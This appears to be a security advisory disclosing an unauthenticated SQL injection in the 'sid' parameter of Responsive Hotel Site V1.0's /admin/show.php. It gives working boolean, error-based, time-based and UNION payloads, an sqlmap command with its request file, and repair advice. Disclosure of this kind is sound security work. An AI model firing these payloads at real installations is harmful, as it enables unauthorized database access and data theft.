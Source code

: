 # Responsive Hotel Site V1.0 /admin/show.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Responsive Hotel Site

## Vendor Homepage

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- 柴露佳、侯洋、蒋思迪、朱杰、廖国兆

## VERSION(S)

- V1.0

## Software Link

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/show.php' file of the 'Responsive Hotel Site' project. The reason for this issue is that attackers inject malicious code from the parameter "sid" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Responsive Hotel Site", discovered a critical SQL injection vulnerability in the "/admin/show.php" file. This vulnerability stems from insufficient user input validation of the 'sid' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based
- UNION query

## Vulnerability location:

- 'sid' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' AND 8029=8029-- VToc
    Vector: AND [INFERENCE]

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' OR (SELECT 1574 FROM(SELECT COUNT(*),CONCAT(0x71707a7071,(SELECT (ELT(1574=1574,1))),0x71766b7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OoxU
    Vector: OR (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' AND (SELECT 3162 FROM (SELECT(SLEEP(5)))TMPX)-- XXRy
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71707a7071,0x595673745a6e6b72747257627357415967744a4d4f675253424c4e556f6c7a5a4e515549474c4f5a,0x71766b7a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20251011194325460](assets/image-20251011194325460.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /admin/show.php?sid=1* HTTP/1.1
Host: 10.151.169.235:8833
Cache-Control: max-age=0
Origin: http://10.151.169.235:8833
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.169.235:8833/admin/roomdel.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive
```

# Attack results

![image-20251011194400835](assets/image-20251011194400835.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
